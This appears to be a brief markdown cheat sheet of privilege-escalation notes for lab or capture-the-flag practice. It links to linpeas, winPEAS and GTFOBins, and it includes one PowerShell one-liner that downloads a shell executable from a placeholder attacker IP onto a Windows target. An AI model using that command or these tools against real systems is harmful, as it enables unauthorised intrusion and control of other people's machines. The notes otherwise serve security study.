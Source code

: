 # Privilege Escalation

## Linux

### linpeas.sh
[https://linpeas.sh/](https://linpeas.sh/)

### SUID and `sudo` Exploit
[GTFOBins](https://gtfobins.github.io/#)

---
## Windows

### winPEAS

[Github link](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

### Download File on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```